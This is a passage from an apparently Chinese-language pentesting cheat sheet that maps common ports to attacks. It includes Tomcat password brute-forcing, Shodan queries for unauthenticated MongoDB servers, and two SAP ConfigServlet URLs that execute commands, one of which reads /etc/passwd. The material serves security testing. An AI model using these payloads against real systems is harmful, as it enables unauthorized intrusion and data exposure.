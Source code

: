 ## 8123

`ClickHouse`

- `/?query=SHOW%20DATABASES`

---

## 80/443/8080~10000

通常是 `IIS` / `apache` / `tomcat`

- 对于 IIS 测试短文件名泄露或 MS15-034
- 直接访问出现默认页面或报错可能是路径不对,可以尝试爆破路径
- 对于 tomcat,可以尝试爆破弱口令 tomcat 的管理页面账号密码,注意:tomcat 默认是没有管理员账户的,这个只有开发配置后才有,所以先确认一下目标有没有配置管理账号,如果你点击 Manager App 或 Host Manager 就直接报错说明没有配置当然也可能是限制了访问.
- [框架和中间件渗透](../Web安全/BS-Exploits.md#框架和中间件)

`其他各类 web 服务`

- 如果有登录页面就去搜搭建教程尝试默认口令,或访问初始化安装的页面
- 如果目标采用的是开源服务,去看看项目 issue
- 这块内容太多就不一一列举 详情请看 [BS-Exploits](../Web安全/BS-Exploits.md#服务)

---

## 11211

`memcached`

- [memcached未授权访问](../软件服务安全/CS-Exploits.md#memcached)

---

## 27017/27018

`mongodb`

> shodan : "product:MongoDB"
> shodan : "MongoDB Server Information" port:27017 -authentication

- 弱口令
- 未授权访问

---

## 50000/50001

`SAP`

- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all`
- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cat /etc/passwd`

---

## 50010/50030/50070

`Hadoop`

- [Hadoop未授权访问](../软件服务安全/CS-Exploits.md#hadoop)
